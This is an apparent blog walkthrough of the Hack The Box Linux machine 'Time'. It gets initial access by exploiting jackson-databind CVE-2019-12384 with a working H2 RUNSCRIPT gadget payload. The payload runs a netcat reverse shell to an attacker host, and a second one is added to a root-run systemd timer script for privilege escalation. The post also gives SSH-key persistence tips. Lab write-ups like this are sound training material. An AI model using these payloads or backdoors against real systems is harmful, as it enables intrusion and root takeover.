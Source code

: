 ```yaml
---
layout: single
title: 'Walktrough: HTB Time'
namespace: htb-time
category: Walkthrough
tags:
- HackTheBox
- Jackson
- FasterXML
- Service Hijack
- HTB Linux
- HTB Medium
date: 2021-04-03T16:00:00.000+00:00
header:
  teaser: https://i.imgur.com/jiSvU4u.png
  og_image: 
redirect_from: "/writeup/2021/04/htb-time"

---
```

Hello everyone!

The machine of this week will be **Time**, another Linux box medium rated from [Hack The Box](https://www.hackthebox.eu), created by [
egotisticalSW](https://app.hackthebox.eu/users/94858) and [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups for Hack the Box are always posted as soon as machines get retired.
{: .notice--info}

![HTB Time](https://i.imgur.com/mJmeefG.png){: .align-center}

## Enumeration

We start with the enumeration of published services using a `nmap` quick scan, where we can see the output below:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - HTTP Service

Starting by checking the HTTP service published on port 80, noticed that we have a JSON Validation and Beautifier service.

![Online JSON Parser - Time](https://i.imgur.com/V6RbC9L.png){: .align-center}

After some enumeration with `whatweb` and `nikto`, I haven't found anything useful, so I proceeded to app experimentation, looking for some vulnerability that could lead us to some code injection or LFI.

Analyzing the application, we have two functionalities: **Beautify** and **Validate**:

- The option beautify, after receiving a valid JSON, formats it in a pretty manner and, sending an invalid content (e.g. "test"), returns a `null` value.

![Online JSON Parser - Time - beautify](https://i.imgur.com/tpO2p3r.png){: .align-center}

- The Validate option (in beta) checks the syntax of the JSON provided. When we send an invalid request (e.g. "test"), the exception below is returned.

  ```plaintext
  Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
  ```

## Initial Access

After searching for `com.fasterxml.jackson.core` I have found about the **Jackson** project, developed by **FasterXML** and from which core is the base component for [jackson-databind](https://github.com/FasterXML/jackson-databind), a popular JSON library, here used to implement the formatting and validating features.

Looking for CVEs on jackson-databind, I have found the following for code execution published in 2019, according to the page [CVE Details](https://www.cvedetails.com):

![CVE Details](https://i.imgur.com/T2Kth6e.png){: .align-center}

Of the 4 listed, I have found for **CVE-2019-12384** a working PoC at [this blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), which I have used to gain initial access to the box. The following steps were used to get a reverse shell:

- Created a file called `inject.sql` with the code below, modified from the version at the blog, to start a reverse shell to the attacker machine at 4443 and published using a python3 HTTP server (`sudo python3 -m http.server 80`) from the directory where the file resides.

  ```sql
  CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
      String[] command = {"bash", "-c", cmd};
      java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
      return s.hasNext() ? s.next() : "";  }
  $$;
  CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
  ```

- Configured listener using netcat by running `nc -lnvp 4443`.
- Sent payload below in the application instead of a JSON content to be validated.

  ```plaintext
  ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
  ```

![Listener and Webserver - Time](https://i.imgur.com/7o42urH.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/Pv2Vbzy.png){: .align-center}

## User flag

After upgrading the shell, started enumeration where was identified that the user we were using, **pericles**, was a regular Linux user with no special permissions granted.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Accessing its root directory found the user flag, as below.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Before continuing enumeration, to make easier regaining access if needed, created an SSH key using `ssh-keygen` and configured the public key in the file `~/.ssh/authorized_keys`, allowing us to directly connect to the user pericles via SSH.

The enumeration was done by running `linpeas.sh` and one of the findings called attention, referring to the machine name: a shell file owned by `pericles` in the path `/usr/bin/timer_backup.sh`.

This file is configured as a **system timer** (`/etc/systemd/system/timer_backup.timer` and `/etc/systemd/system/timer_backup.service`) and set be executed **every 10 seconds** as `root`.

As we have enough permissions to edit the shell script, I have added the line below to return a reverse shell on the attacker machine and, after a few seconds, a reverse shell was obtained! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

As the process is re-executed every 10 sec the process tree is terminated, and we lose the existing connection to the machine. To just get the root flag this time is sufficient, which was as done initially.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

In case you want to get a persistent connection at this machine we have two initial options:

- Configure the system timer to add the public key in the `/root/.ssh/authorized_keys` file, allowing us to SSH as `root`.
- Spawn another reverse shell as soon as we get the initial connection, which can be done in multiple ways like Metasploit AutoRunScript and `netcat`, prepending the listener with the instruction to send the payload as soon as it gets connected, as you can see in an example below where the `id` command is executed as soon as the session is started:

```bash
printf "id\n" | nc -lnvp 4443
```

I hope this was useful to you and see you guys in the next post! :smiley: